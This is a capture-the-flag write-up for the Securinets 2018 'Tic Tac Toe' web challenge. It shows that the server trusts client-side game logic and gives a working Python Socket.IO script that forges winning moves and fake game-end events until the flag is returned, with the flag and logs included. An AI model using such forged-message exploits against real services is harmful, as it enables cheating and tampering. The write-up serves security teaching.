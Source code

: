 # Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

* https://github.com/DancingSimpletons/writeups/blob/master/securinets-2018/Tic%20Tac%20Toe.md
* https://github.com/p4-team/ctf/tree/master/2018-03-24-securinets/web_tictactoe

# Title

[//]: <> (题目)

TheEmperors learned how to play the Tic Tac Toe game and since that time, for million of years, no one have defeated them in this game. You have to defeat TheEmperors player 100 times to become the newest serial winner of this game. Then you will get the flag

Link : http://web2.quals18.ctfsecurinets.com:5000

# Content

[//]: <> (WriteUp内容)

Open the link, open the developer console, and play a few games. Notice that the communication to the server happens
over a Websockets connection -- specifically using the Socket.io protocol. For example, we can see the following interaction

```
> ["createGame", {name: "test"}]
< ["newGame",{"name":"test","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","player1":{"name":"test","wins":0,"loose":0,"serial_winner":0},"player2":{"name":"TheEmperors","wins":1928,"loose":10320}}]

> ["joinGame",{"ennemy_name":"TheEmperors","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]
< ["player2",{"room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]

> ["playTurn",{"row":"0","col":"0","player":"O","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]
< ["turnPlayed",{"row":"0","col":"0","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","matrix":[["O","-","-"],["-","-","-"],["-","-","-"]]}]

> ["playTurn",{"row":"1","col":"1","player":"X","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]
< ["turnPlayed",{"row":"1","col":"1","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","matrix":[["O","-","-"],["-","X","-"],["-","-","-"]]}]

...

> ["gameEnded",{"room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","message":"Checkmate like a charm ;) TheEmperors player wins!"}]
< ["gameEnd",{"room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","message":"Checkmate like a charm ;) TheEmperors player wins!"}]
```

Note that The Emperor's moves are calculated on the _client side_! This opens possibilities.

Using [socketIO-client](https://pypi.python.org/pypi/socketIO-client), we can easily write a client in Python to send exactly what we
want to the server. We simply position three 'X'-es on the diagonal, and tell the server the game is finished. The server happily accepts
this, and starts a new game. We repeat this until the server sends us the flag.

The message/callback order is as follows:
1. Client sends `createGame` message
2. Server sends `newGame`, client sends `joinGame`
3. Server sends `player2`, client sends `playTurn`
4. Server sends `turnPlayed`. Client sends `playTurn` if moves remaining (goto 4) or `gameEnded` otherwise (goto 2)

```python
import logging
logging.getLogger('socketIO-client').setLevel(logging.DEBUG)
logging.basicConfig()

from socketIO_client import SocketIO, LoggingNamespace
import time

class TicTacToe:
    max_iters = 150  # make sure we don't keep repeating until infinity
    turns = [("X", 0, 0), ("X", 1, 1), ("X", 2, 2)]  # three X-es on the diagonal

    def __init__(self):
        self.iters = 0
        
        self.client = SocketIO('ec2-54-194-213-165.eu-west-1.compute.amazonaws.com', 5000, LoggingNamespace)
        self.client.on('newGame', self.newGame)
        self.client.on('player2', self.nextTurn)
        self.client.on('turnPlayed', self.nextTurn)

    def create_game(self):
        self.client.emit("createGame", {"name": "DancingSimpletons"})

    def newGame(self, args):
        time.sleep(0.1)
        
        self.iters += 1
        print("iteration ", self.iters)
        if (self.iters > self.max_iters):
            return

        self.turnindex = 0
        self.room = args['room']
        self.enemy = args['player2']['name']
        
        self.client.emit("joinGame", {"ennemy_name": self.enemy, "room": self.room})

    def nextTurn(self, args):
        if (self.turnindex == len(self.turns)):
            return self.lastTurn(args)

        (player, row, col) = self.turns[self.turnindex]
        self.turnindex += 1

        self.client.emit("playTurn", {
                'row': row,
                'col': col,
                'player': player,
                'room': self.room
        })

    def lastTurn(self, args):
        self.client.emit("gameEnded", {
                'message': 'whatever',
                'room': self.room
        })

t = TicTacToe()
t.create_game()
t.client.wait(seconds=100)
```

When we run this, we get (NB. 'packet sent' are sent messages, while 'message' indicates a received message)
```
[engine.io transport selected] websocket
[engine.io heartbeat reset]
[socket.io packet sent] 2["createGame", {"name": "DancingSimpletons"}]
[engine.io message] b'0'
[socket.io packet received] b'0'
[socket.io connect]
[socket.io connected]
[engine.io pong] b''
[engine.io message] b'2["newGame",{"name":"DancingSimpletons","room":"1bb964113bde07dbc4c5d0f7eba56508421b52bfe7d84ea2d506edbc413e20d6ade3f0e202db9e34040a43d66352ec5b","player1":{"name":"DancingSimpletons","wins":0,"loose":0,"serial_winner":0},"player2":{"name":"TheEmperors","wins":1956,"loose":10445}}]'
[...]
[socket.io packet sent] 2["gameEnded", {"message": "whatever", "room": "1bb964113bde07dbc4c5d0f7eba56508421b52bfe7d84ea2d506edbc413e20d6ade3f0e202db9e34040a43d66352ec5b"}]
[engine.io message] b'2["newGame",{"room":"1bb964113bde07dbc4c5d0f7eba56508421b52bfe7d84ea2d506edbc413e20d6ade3f0e202db9e34040a43d66352ec5b","player1":{"name":1,"wins":1,"loose":0,"serial_winner":1},"player2":{"name":"TheEmperors","wins":1956,"loose":10446}}]'
[...]
[socket.io packet received] b'2["newGame",{"room":"1a35dc1c9fef1f3e68be621a11582bf25db8cffe611ec33afe3465fbfd54b5ae570bf55a068dc56a89fab1be91f37890","player1":{"name":100,"wins":100,"loose":0,"serial_winner":100},"player2":{"name":"TheEmperors","wins":1961,"loose":10651}}]'
[...]
[socket.io packet sent] 2["gameEnded", {"message": "whatever", "room": "1a35dc1c9fef1f3e68be621a11582bf25db8cffe611ec33afe3465fbfd54b5ae570bf55a068dc56a89fab1be91f37890"}]
[engine.io message] b'2["getMyLovelyFlag","Flag{S9ck3t_I0_set_by_Th3_EMPIRE_NIAHAHAHAHAHAHA_xD}"]'
[socket.io packet received] b'2["getMyLovelyFlag","Flag{S9ck3t_I0_set_by_Th3_EMPIRE_NIAHAHAHAHAHAHA_xD}"]'
[socket.io event] getMyLovelyFlag('Flag{S9ck3t_I0_set_by_Th3_EMPIRE_NIAHAHAHAHAHAHA_xD}')
```

Success!